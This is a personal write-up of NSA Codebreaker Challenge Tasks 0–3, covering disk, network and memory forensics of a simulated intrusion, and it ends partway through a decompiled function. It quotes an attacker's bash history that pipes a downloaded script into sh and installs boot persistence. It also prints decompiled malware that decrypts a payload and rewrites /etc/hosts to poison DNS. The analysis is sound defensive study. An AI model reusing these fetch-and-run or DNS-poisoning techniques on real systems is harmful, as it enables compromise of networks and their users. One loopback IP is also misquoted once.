## Background

> The Air Force's Cyber Operations Squadron is well known for developing tools to ensure the cyber dominance of the United States military. Advanced foreign adversary's, attempting to gather intelligence as well as bolster their own cyber arsenal, are always searching for ways to infiltrate, sabotage, and steal.

> While the defenses in our military networks are robust, they are not impervious and continued vigilance and overwatch are a necessity. Yesterday, one savvy Department of the Air Force Security Operation Center (DAFIN-SOC) analyst noticed unusual behavior and reached out to the 616 Operations Center, and submitted a Request for Information (RFI) to the NSA for assistance.

> You have just begun the first tour in your Development Program at NSA with the Cyber Response Team and are looking to make a big impact. You have always read about the threat of Nation-State Advanced Persistent Threats but now you have a chance to personally defend American interests against a sophisticated and capable adversary.

I was pretty motivated to full solve this year's challenge. I only got to High Performer (task 5) during 2024's challenge due to time constraints (had to lock in to get my Sec+ cert), and I definitely felt like there was still meat left on the bone. This year, I finally had all the time I needed to get the challenge done. Follow along as I go through the quest of getting that challenge coin.

# Task 0 - (Community of Practice, Discord Server)

>As a participant in the Codebreaker Challenge, you are invited to join the New Mexico Tech Codebreaker Challenge Community of Practice! This is the 4th year that NMT has partnered with the NSA Codebreaker Challenge. Its purpose remains to give students interested in cybersecurity a place to talk about Codebreaker, cybersecurity, and other related topics. To complete this task, first, join the Discord server. https://discord.gg/SWYCM5xr4N. Once there, type /task0 in the #bot-commands channel. Follow the prompts and paste the answer the bot gives you below.

### Solve:

Just join the CBC Discord and follow the steps ¯\\_(ツ)_/¯

**Response:**
>Welcome to the community! Remember, challenge tasks must be done solo and NO SPOILERS! Use 'Get Help' for a direct line to NSA.

# Task 1 - Getting Started - (Forensics)

> You arrive on site and immediately get to work. The DAFIN-SOC team quickly briefs you on the situation. They have noticed numerous anomalous behaviors, such as; tools randomly failing tests and anti-virus flagging on seemingly clean workstations. They have narrowed in on one machine they would like NSA to thoroughly evaluate.

> They have provided a zipped EXT2 image from this development machine. Help DAFIN-SOC perform a forensic analysis on this - looking for any suspicious artifacts.

> Downloads: zipped EXT2 image (image.ext2.zip)

> Prompt: Provide the SHA-1 hash of the suspicious artifact.

### Solve: 

For this task, we are given an EXT2 image and need to find the SHA-1 hash of a suspicious artifact. 

This task was pretty straight forward. First, I unzipped the image and then mounted it at a directory I made on my system at `/mnt/task1`

```
unzip image.ext2.zip

sudo mkdir /mnt/task1

sudo mount -t ext2 -o loop image.ext2 /mnt/task1
```

We can then `cd` to `/mnt/task1` and run `ls` to look at the directories we have

```
app  backup  bin  dev  etc  home  lib  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

Seems like a normal Linux system. I figured that the most important files would actually have content, so running the below command, I list all of the files sorted by size 

```
find . -type f -exec du -h {} + 2>/dev/null | sort -hr
```

Ironically, the file we were looking for wasn't that big at all. At the bottom of the command output, with the smaller files, I immediately saw a file name that I thought was odd, `macwszvxno`

```
...
...
A lot of files
...
...
4.0K    ./etc/conf.d/consolefont
4.0K    ./etc/conf.d/bootmisc
4.0K    ./etc/bash/bashrc
4.0K    ./etc/apk/world
4.0K    ./etc/apk/repositories
4.0K    ./etc/apk/macwszvxno          <-- Here
4.0K    ./etc/apk/keys/alpine-devel@lists.alpinelinux.org-61666e3f.rsa.pub
4.0K    ./etc/apk/keys/alpine-devel@lists.alpinelinux.org-6165ee59.rsa.pub
4.0K    ./etc/apk/keys/alpine-devel@lists.alpinelinux.org-5261cecb.rsa.pub
4.0K    ./etc/apk/keys/alpine-devel@lists.alpinelinux.org-5243ef4b.rsa.pub
4.0K    ./etc/apk/keys/alpine-devel@lists.alpinelinux.org-4a6a0840.rsa.pub
4.0K    ./etc/apk/arch
4.0K    ./etc/alpine-release
0       ./lib/apk/db/lock
```

Pretty lucky that the file is right at the end of the output for us to see. If we cat this file it has the contents

```
U=/a/3504c94c909bcc32cad02e67c8c95850/xxyz
P=20
A=/app/www
```

This seems pretty suspicious. Generating the SHA-1 hash of this file with the command below and submitting it solves this task!

> I am running the below command from the mounted image's root directory

```
sha1sum etc/apk/macwszvxno
42516e5930be0dde9a8042912cef8c95af9a507d  etc/apk/macwszvxno
```

In regards to what the intended solve probably was, if we take a look at the bash history in root, we can see some commands revolving around this file by using grep

```
sudo cat root/.bash_history | grep -C 3 macw
```

Gives us:

```
cd /tmp
curl http://127.0.0.1:10000/a/get.sh | sh
tar xf t.tar
cp c /etc/apk/macwszvxno
cp a /bin/console
cp b /etc/runlevels/default/console
rm -f a
--
/bin/console -s
ps | grep con
kill 1020
/bin/console -s -o /etc/apk/macwszvxno
ps
exit
last -20
--
pkill -9 console
ps
ps | grep console
rm -f etc/apk/macwszvxno
rm -f /bin/console
rm -f /etc/runlevels/default/console
exit
```

As we can see from the first few commands, the bad actor downloads and extracts a payload at `http://127.0.0.1:10000/a/get.sh` and installs three malicious files, `c`, `a`, and `b`. 

```
cd /tmp
curl http://127.0.0.1:10000/a/get.sh | sh
tar xf t.tar
cp c /etc/apk/macwszvxno
cp a /bin/console
cp b /etc/runlevels/default/console
```

They then use `a`, which they name `/bin/console` to hide it (to make it look like some legitimate binary), to write data to `/etc/apk/macwszvxno`, which appears to be storing malware parameters or something similar. 

```
/bin/console -s -o /etc/apk/macwszvxno
```

Also, `b` is copied into `/etc/runlevels/default/console` so that it automatically starts at boot. 

```
cp b /etc/runlevels/default/console
```

The bad actor then tries to delete all artifacts, as we see in 3 of the last 4 commands:

```
rm -f etc/apk/macwszvxno
rm -f /bin/console
rm -f /etc/runlevels/default/console
```

However, `/etc/apk/macwszvxno` still remains as we know, and thus is the malicious artifact the task is looking for. The file is still on the system because instead of deleting `/etc/apk/macwszvxno`, the bad actor appears to have mis-inputted, attempting to delete `etc/apk/macwszvxno` instead, missing that first `/`. This tries to delete from a directory named `etc` that is within the current working directory, instead of from `/etc`. If the bad actor is not working from the root, `/`, directory, this command won't work as the bad actor intended. Costly mistake, since it allowed us to find this artifact

**Response:**
> Great job finding that artifact! Let's report what we found to DAFIN-SOC leadership.

# Task 2 - The Hunt Continues - (Network Forensics)

> With your help, the team concludes that there was clearly a sophisticated piece of malware installed on that endpoint that was generating some network traffic. Fortunately, DAFIN-SOC also has an IDS which retained the recent network traffic in this segment.

> DAFIN-SOC has provided a PCAP to analyze. Thoroughly evaluate the PCAP to identify potential malicious activity.

> Downloads: PCAP to analyze (traffic.pcap)

> Prompt: Submit all the IP addresses that are assigned to the malicious device, one per line

### Solve:

Oh boy I know this one messed with a lot of people, and it got me too, until I found the needle in the haystack

Since the prompt asks us to find "all the IP addresses that are assigned to the malicious device, one per line", I immediately assumed that the answer would be found by finding a MAC address that is using multiple IPs

Using tshark, I ran a command to print sender MAC Addresses and the IP's used

```bash
tshark -r traffic.pcap \
  -T fields \
  -e sll.src.eth \
  -e ip.src \
  -E separator=$'\t' |
awk '
{
  mac=$1
  ip=$2

  if (mac != "" && !(mac in seen_mac)) {
    print mac
    seen_mac[mac]=1
  }

  if (mac != "" && ip != "") {
    key = mac FS ip
    if (!(key in seen)) {
      printf "%s\t%s\n", mac, ip
      seen[key]=1
    }
  }

  if (mac == "" && ip != "") {
    lone[ip]=1
  }
}
END {
  for (ip in lone) {
    printf "\t%s\n", ip
  }
}'
```

Then used a Python script to read through the output and give me a clean result:

```python
from collections import defaultdict

mac_to_ips = defaultdict(set)

with open("mac_ip_pairs.txt") as f:
    for line in f:
        parts = line.strip().split()
        if len(parts) == 2:
            mac, ips_str = parts
            # Split by comma in case there are multiple IPs
            for ip in ips_str.split(','):
                ip_clean = ip.strip()
                if ip_clean:
                    mac_to_ips[mac].add(ip_clean)

for mac in sorted(mac_to_ips):
    print(f"{mac}: {', '.join(sorted(mac_to_ips[mac]))}")
```

We get an interesting result when running this script

```
00:0c:29:17:09:04: 172.21.1.5, 192.168.1.140, 192.168.2.254, 192.168.2.50, 192.168.4.1, 192.168.5.1
00:0c:29:17:09:0e: 0.0.0.0, 172.21.1.254, 192.168.2.254, 192.168.2.50
00:0c:29:17:09:18: 192.168.2.50
00:0c:29:17:09:22: 192.168.2.50
00:0c:29:17:09:2c: 192.168.2.50, 192.168.46.133, 192.168.46.2
00:0c:29:40:71:dc: 192.168.2.50
00:0c:29:42:d9:fe: 172.21.1.5, 192.168.2.50
00:0c:29:6b:81:d4: 172.21.1.230
00:0c:29:77:42:f6: 192.168.3.254, 192.168.5.1
00:0c:29:d6:0d:49: 192.168.1.140, 192.168.1.254, 192.168.2.50, 192.168.4.1
00:50:56:ea:6e:7a: 192.168.46.2, 216.31.17.12, 45.83.234.123
00:50:56:f4:78:30: 192.168.46.254
```

Looks like there are multiple MAC Addresses that are sending packets using different IP addresses. Well, this got a whole lot more complicated. 

I tried submitting some of these to see if any of these were correct, and interestingly, submitting the two IPs assigned to the MAC `00:0c:29:77:42:f6` as seen here:

`00:0c:29:77:42:f6: 192.168.3.254, 192.168.5.1`

Actually gave me a different "Incorrect answer" message stating that I had some of the correct IPs but not all of them. Where to go from here?

Skipping the hours of going through the pcap in Wireshark trying to find anything interesting, I finally found the aforementioned needle in the haystack. 



When filtering by FTP traffic, we can see some files get transmitted. In the above image is one such example where we see a file `router3_backup.config` being transmitted. There are actually 2 more of these router config files transmitted as well, `router1_backup.config` and `router2_backup.config`, but this 3rd one is the most interesting. 

If we look at its contents we can see some interesting things:

```
config interface 'loopback'
    option device 'lo'
    option proto 'static'
    option ipaddr '127.9.7.3'
    option netmask '255.0.0.0'

config globals 'globals'
    option ula_prefix 'fdf2:87c7:eb73::/48'
    option packet_steering '1'

config device
    option name 'br-lan'
    option type 'bridge'
    list ports 'eth0'

config interface 'lan'
    option device 'br-lan'
    option proto 'static'
    option ipaddr '192.168.3.254'
    option netmask '255.255.255.0'
    option ip6assign '60'

config interface 'to_openwrt2'
    option device 'eth1'
    option proto 'static'
    list ipaddr '192.168.5.1/28'

config interface 'host_nat'
    option proto 'dhcp'
    option device 'eth2'

config route
    option target '192.168.3.0/24'
    option gateway '192.168.3.254'
    option interface 'lan'

config route
    option target '0.0.0.0/0'
    option gateway '192.168.5.2'
    option interface 'to_openwrt2'
```

Well would you look at that, the two IPs we know are correct are being used as the `ipaddr` for the `config interface` settings!

```
config interface 'lan'
    option device 'br-lan'
    option proto 'static'
    option ipaddr '192.168.3.254'          <--- Here
    option netmask '255.255.255.0'
    option ip6assign '60'

config interface 'to_openwrt2'
    option device 'eth1'
    option proto 'static'
    list ipaddr '192.168.5.1/28'          <--- Here
```

So this configuration file is definitely heading in the right direction. What are the missing IPs though? Well the prompt does ask for "*all* the IP addresses that are assigned to the malicious device", which means that that would include the IP used in the loopback interface:

```
config interface 'loopback'
    option device 'lo'
    option proto 'static'
    option ipaddr '127.9.7.3'
    option netmask '255.0.0.0'
```

So `127.9.3.7` was our last IP we were missing

Submitting

```
192.168.3.254
192.168.5.1
127.9.7.3
```

solves this task!

#### Backtracking

After looking back at this task for this writeup, it appears that I got the right answer but I didn't really follow the intended solve

So the malicous device is actually a malicious DNS server. By filtering for DNS, and working backwards since we know its assigned IPs now, specifically using `192.168.3.254`, we can see that it was providing malicious DNS responses to queries for `archive.ubuntu.com`



`archive.ubuntu.com` should never be resolving to this IP address. You can also confirm that the IP, `203.0.113.108`, is suspicious by filtering for traffic by that IP and finding this interesting TCP stream



That looks like some kind of public key transmitted, and something about the key being recieved? That doesn't look normal at all. 

This is actually a teaser for Task 5, and isn't needed to solve Task 2, so keep reading if you want to see where that leads!

From here, you were then supposed to hunt down the same config file we found earlier to find the other 2 IP addresses assigned to the device (that being `192.168.5.1` and `127.9.7.3`)

To conclude, I started looking at MACs using multiple IPs, but in reality you were supposed to use this malicious DNS query as the starting point of your investigation to then lead you to the correct config file (remember there are 2 other ones) and therefore the remaining two IPs. 

Cool stuff. Regardless of how we got there though, we got our task 2 badge. 

**Response:**
> Excellent work identifying the suspicious network traffic and narrowing in on the source! We will head over to the network administrators to discuss what we have discovered.

# Task 3 - Digging deeper - (Reverse Engineering)


> The network administrators confirm that the IP address you provided in your description is an edge router. DAFIN-SOC is asking you to dive deeper and reverse engineer this device. Fortunately, their team managed to pull a memory dump of the device.

> Scour the device's memory dump and identify anomalous or malicious activity to find out what's going on.

> Your submission will be a list of IPs and domains, one per line. For example:

```
127.0.0.1 localhost
192.168.54.131 corp.internal
...
```

> Downloads: Memory Dump (memory.dump.gz), Metadata (System.map.br), Kernel Image (vmlinux.xz)

> Prompt: Submit a complete list of affected IPs and FQDNs, one per line.

### Solve:

Finally, we got to the good part, reverse engineering

We are given a memory dump, so some digital forensics is required before we can get there though. 

#### Volatility Reveals All

Volatility will of course be our go to tool for this. We need a symbol table though so that we can get actual useful data from the memory dump. We can do this with the tool, [drarf2json](https://github.com/volatilityfoundation/dwarf2json)

```
~/dwarf2json/dwarf2json --elf vmlinux --system-map System.map --output symtable.json
```

I first started with looking at processes with Volatility (make sure `--symbol-dirs` is pointing to the directory that you made your symbol table JSON file in)

```
python3 ~/tools/volatility3/vol.py -f memory.dump --symbol-dirs=. linux.psaux.PsAux 
```

Immediately we can see a suspicious process, near the bottom of the output

```
1244    1       dropbear        /usr/sbin/dropbear -F -P /var/run/dropbear.1.pid -p 22 -K 300 -T 3
1405    1       netifd  /sbin/netifd
1524    1       odhcpd  /usr/sbin/odhcpd
1552    515     4       /bin/resolver-refresh /proc/self/fd/5         <--- What is this?
1744    1       ntpd    /sbin/ujail -t 5 -n ntpd -U ntp -G ntp -C /etc/capabilities/ntpd.json -c -u -r /bin/ubus -r /usr/bin/env -r /usr/bin/jshn -r /usr/sbin/ntpd-hotplug -r /usr/share/libubox/jshn.sh -- /usr/sbin/ntpd -n -N -S /usr/sbin/ntpd-hotplug -p 0.openwrt.pool.ntp.org -p 1.openwrt.pool.ntp.org -p 2.openwrt.pool.ntp.org -p 3.openwrt.pool.ntp.org
1749    1744    ntpd    /usr/sbin/ntpd -n -N -S /usr/sbin/ntpd-hotplug -p 0.openwrt.pool.ntp.org -p 1.openwrt.pool.ntp.org -p 2.openwrt.pool.ntp.org -p 3.openwrt.pool.ntp.org
1854    1552    service /bin/sh /sbin/service dnsmasq restart
1855    1854    dnsmasq /bin/sh /etc/rc.common /etc/init.d/dnsmasq restart
```

The process with a PID of 1552 is doing something with a file descriptor, and also, the command name is just `4`? 

```
1552    515     4       /bin/resolver-refresh /proc/self/fd/5 
```

This is really suspicious. Let's look deeper. We can dump the virtual memory sections of this process with Volatility (just make sure `-f` and `--symbol-dir` are pointing to the right files / directories)

```
python3 ~/tools/volatility3/vol.py  -f ../../memory.dump --symbol-dir=../.. linux.proc.Maps --pid 1552 --dump
```

It shows us what exactly each section is once we do this

```
PID     Process Start   End     Flags   PgOff   Major   Minor   Inode   File Path       File output

1552    4       0x557c6ca39000  0x557c6ca3a000  r--     0x0     0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca39000-0x557c6ca3a000.dmp
1552    4       0x557c6ca3a000  0x557c6ca3b000  r-x     0x1000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3a000-0x557c6ca3b000.dmp
1552    4       0x557c6ca3b000  0x557c6ca3c000  r--     0x2000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3b000-0x557c6ca3c000.dmp
1552    4       0x557c6ca3c000  0x557c6ca3d000  r--     0x2000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3c000-0x557c6ca3d000.dmp
1552    4       0x557c6ca3d000  0x557c6ca3e000  rw-     0x3000  0       1       1024    /memfd:x (deleted)      pid.1552.vma.0x557c6ca3d000-0x557c6ca3e000.dmp
1552    4       0x557c6d607000  0x557c6d608000  ---     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x557c6d607000-0x557c6d608000.dmp
1552    4       0x557c6d608000  0x557c6d609000  rw-     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x557c6d608000-0x557c6d609000.dmp
1552    4       0x7f495f4c3000  0x7f495f4c4000  rw-     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x7f495f4c3000-0x7f495f4c4000.dmp
1552    4       0x7f495f4c4000  0x7f495f4d8000  r--     0x0     254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f4c4000-0x7f495f4d8000.dmp
1552    4       0x7f495f4d8000  0x7f495f524000  r-x     0x14000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f4d8000-0x7f495f524000.dmp
1552    4       0x7f495f524000  0x7f495f539000  r--     0x60000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f524000-0x7f495f539000.dmp
1552    4       0x7f495f539000  0x7f495f53a000  r--     0x74000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f539000-0x7f495f53a000.dmp
1552    4       0x7f495f53a000  0x7f495f53b000  rw-     0x75000 254     0       361     /lib/libc.so    pid.1552.vma.0x7f495f53a000-0x7f495f53b000.dmp
1552    4       0x7f495f53b000  0x7f495f53e000  rw-     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x7f495f53b000-0x7f495f53e000.dmp
1552    4       0x7ffecdd2b000  0x7ffecdd4c000  rw-     0x0     0       0       0       [stack] pid.1552.vma.0x7ffecdd2b000-0x7ffecdd4c000.dmp
1552    4       0x7ffecdda9000  0x7ffecddad000  r--     0x0     0       0       0       Anonymous Mapping       pid.1552.vma.0x7ffecdda9000-0x7ffecddad000.dmp
1552    4       0x7ffecddad000  0x7ffecddae000  r-x     0x0     0       0       0       [vdso]  pid.1552.vma.0x7ffecddad000-0x7ffecddae000.dmp
```

Since some of these memory sections are part of what is some binary executable, we can cat these sections together until we get an executable file. As seen below, the first `memfd:x (deleted)` section shows us an ELF header



I am going to cat all the `memfd:x (deleted)` sections together and see if we can get an executable file

```
cat pid.1552.vma.0x557c6ca39000-0x557c6ca3a000.dmp pid.1552.vma.0x557c6ca3a000-0x557c6ca3b000.dmp pid.1552.vma.0x557c6ca3b000-0x557c6ca3c000.dmp pid.1552.vma.0x557c6ca3c000-0x557c6ca3d000.dmp pid.1552.vma.0x557c6ca3d000-0x557c6ca3e000.dmp > some_file
```

If we run `file` on this, we get

```
some_file: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, missing section headers at 59168
```

Bingo. Just to be 100% sure, we can also make this file executable and try to run it 

> If you are going to do this on what is very likely malware, do it in a sandboxed environment, or don't do it at all, and just try to statically analyze it instead. I do it below just to get the point across that we do indeed have an executable file

```
./some_file 
Usage: ./some_file <encoded file>
```

This is even more telling that we have something. It's Ghidra time!

#### Go Go Ghidra

Remember, from the `file` command output, the binary is missing section headers, meaning the original symbol and function names are unavailable, making the binary a little harder to reverse engineer. However, we can pretty easily find the `main` function by trying to find `libc_start_main`

> Note I had already done some function renaming in the below disassembly snippets

```c

void start_main(undefined4 *param_1)

{
  __libc_start_main(&main,*param_1,param_1 + 2,&__DT_INIT,&__DT_FINI,0);
  return;
}
```

Now we can take a look at the main function

```c

undefined8 UndefinedFunction_00101c7e(int param_1,undefined8 *param_2)

{
  undefined8 uVar1;
  long in_FS_OFFSET;
  undefined8 uStack_40;
  ulong uStack_38;
  void *pvStack_30;
  undefined4 *puStack_28;
  undefined4 *puStack_20;
  long lStack_18;
  long lStack_10;
  
  lStack_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (param_1 == 2) {
    FUN_001012bf();
    uStack_40 = 0;
    pvStack_30 = (void *)read_file_into_memory(param_2[1],&uStack_40);
    if (pvStack_30 == (void *)0x0) {
      uVar1 = 1;
    }
    else {
      uStack_38 = 0;
      puStack_28 = (undefined4 *)base64_decode(pvStack_30,uStack_40,&uStack_38);
      free(pvStack_30);
      if (puStack_28 == (undefined4 *)0x0) {
        uVar1 = 1;
      }
      else if (uStack_38 < 4) {
        fwrite("Decoded payload too short to even have the key...\n",1,0x32,(FILE *)0x0);
        free(puStack_28);
        uVar1 = 1;
      }
      else {
        puStack_20 = puStack_28 + 1;
        lStack_18 = uStack_38 - 4;
        decrypt(puStack_20,lStack_18,*puStack_28);
        write_to_hosts(puStack_20,lStack_18);
        system("service dnsmasq restart");
        free(puStack_28);
        FUN_0010156c();
        uVar1 = 0;
      }
    }
  }
  else {
    fprintf((FILE *)0x0,"Usage: %s <encoded file>\n",*param_2);
    uVar1 = 1;
  }
  if (lStack_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar1;
}
```

Again, the above snippet already shows the result of my analyzing functions and renaming them based on what they do. Regardless, starting from the top and going downwards, we first see a function that reads a file into memory

```c

void * read_file_into_memory(char *param_1,size_t *param_2)

{
  int iVar1;
  FILE *__stream;
  void *__ptr;
  size_t sVar2;
  
  printf("opening %s\n",param_1);
  __stream = fopen(param_1,"rb");
  if (__stream == (FILE *)0x0) {
    perror("fopen");
    __ptr = (void *)0x0;
  }
  else {
    printf("opened %s\n",param_1);
    iVar1 = fseek(__stream,0,2);
    if (iVar1 == 0) {
      sVar2 = ftell(__stream);
      if ((long)sVar2 < 0) {
        perror("ftell");
        fclose(__stream);
        __ptr = (void *)0x0;
      }
      else {
        rewind(__stream);
        __ptr = malloc(sVar2 + 1);
        if (__ptr == (void *)0x0) {
          perror("malloc");
          fclose(__stream);
          __ptr = (void *)0x0;
        }
        else {
          sVar2 = fread(__ptr,1,sVar2,__stream);
          iVar1 = ferror(__stream);
          if (iVar1 == 0) {
            *(undefined *)(sVar2 + (long)__ptr) = 0;
            fclose(__stream);
            *param_2 = sVar2;
          }
          else {
            perror("fread");
            free(__ptr);
            fclose(__stream);
            __ptr = (void *)0x0;
          }
        }
      }
    }
    else {
      perror("fseek");
      fclose(__stream);
      __ptr = (void *)0x0;
    }
  }
  return __ptr;
}
```

And also a function that performs some kind of base64 decoding

```c
void * base64_decode(long param_1,size_t param_2,long *param_3)

{
  long lVar1;
  char cVar2;
  char cVar3;
  char cVar4;
  char cVar5;
  char cVar6;
  char cVar7;
  uint uVar8;
  void *__ptr;
  void *pvVar9;
  ulong local_38;
  ulong local_30;
  long local_28;
  ulong local_20;
  
  __ptr = malloc(param_2);
  if (__ptr == (void *)0x0) {
    perror("malloc");
    pvVar9 = (void *)0x0;
  }
  else {
    local_38 = 0;
    for (local_30 = 0; local_30 < param_2; local_30 = local_30 + 1) {
      cVar2 = *(char *)((ulong)*(byte *)(local_30 + param_1) + 0x104040);
      if ((-1 < cVar2) || (cVar2 == -2)) {
        *(undefined *)((long)__ptr + local_38) = *(undefined *)(param_1 + local_30);
        local_38 = local_38 + 1;
      }
    }
    pvVar9 = malloc((local_38 >> 2) * 3 + 4);
    if (pvVar9 == (void *)0x0) {
      perror("malloc");
      free(__ptr);
      pvVar9 = (void *)0x0;
    }
    else {
      local_28 = 0;
      local_20 = 0;
      while (local_20 < local_38) {
        if (local_20 < local_38) {
          cVar2 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar2 = -2;
        }
        if (local_20 < local_38) {
          cVar3 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar3 = -2;
        }
        if (local_20 < local_38) {
          cVar4 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar4 = -2;
        }
        if (local_20 < local_38) {
          cVar5 = *(char *)((ulong)*(byte *)(local_20 + (long)__ptr) + 0x104040);
          local_20 = local_20 + 1;
        }
        else {
          cVar5 = -2;
        }
        if ((cVar2 < '\0') || (cVar3 < '\0')) break;
        cVar6 = cVar4;
        if (cVar4 < '\0') {
          cVar6 = '\0';
        }
        cVar7 = cVar5;
        if (cVar5 < '\0') {
          cVar7 = '\0';
        }
        uVar8 = (int)cVar7 | (int)cVar2 << 0x12 | (int)cVar3 << 0xc | (int)cVar6 << 6;
        *(char *)(local_28 + (long)pvVar9) = (char)(uVar8 >> 0x10);
        lVar1 = local_28 + 1;
        if (cVar4 != -2) {
          *(char *)(local_28 + 1 + (long)pvVar9) = (char)(uVar8 >> 8);
          lVar1 = local_28 + 2;
        }
        local_28 = lVar1;
        if (cVar5 != -2) {
          *(char *)(local_28 + (long)pvVar9) = (char)uVar8;
          local_28 = local_28 + 1;
        }
        if ((cVar4 == -2) || (cVar5 == -2)) break;
      }
      free(__ptr);
      *param_3 = local_28;
    }
  }
  return pvVar9;
}
```

There is also some kind of custom decryption scheme

```c

void decrypt(long param_1,ulong param_2,uint param_3)

{
  byte bVar1;
  byte local_17;
  uint local_14;
  ulong i;
  
  local_17 = (byte)param_3;
  local_14 = param_3;
  for (i = 0; i < param_2; i = i + 1) {
    local_14 = local_14 + 0x722633ad;
    bVar1 = *(byte *)(i + param_1);
    *(byte *)(i + param_1) = bVar1 ^ (byte)(local_14 >> 0xd) ^ (byte)local_14 ^ local_17;
    local_17 = bVar1;
  }
  return;
}
```

A function to write to `/etc/hosts`

```c

void write_to_hosts(void *param_1,size_t param_2)

{
  ulong uVar1;
  int iVar2;
  char *__dest;
  void *pvVar3;
  FILE *__stream;
  ulong local_50;
  ulong local_48;
  void *local_40;
  char *local_38;
  ulong local_30;
  
  __dest = (char *)malloc(param_2 + 1);
  if (__dest == (char *)0x0) {
    perror("malloc");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  memcpy(__dest,param_1,param_2);
  __dest[param_2] = '\0';
  local_50 = 0x40;
  local_48 = 0;
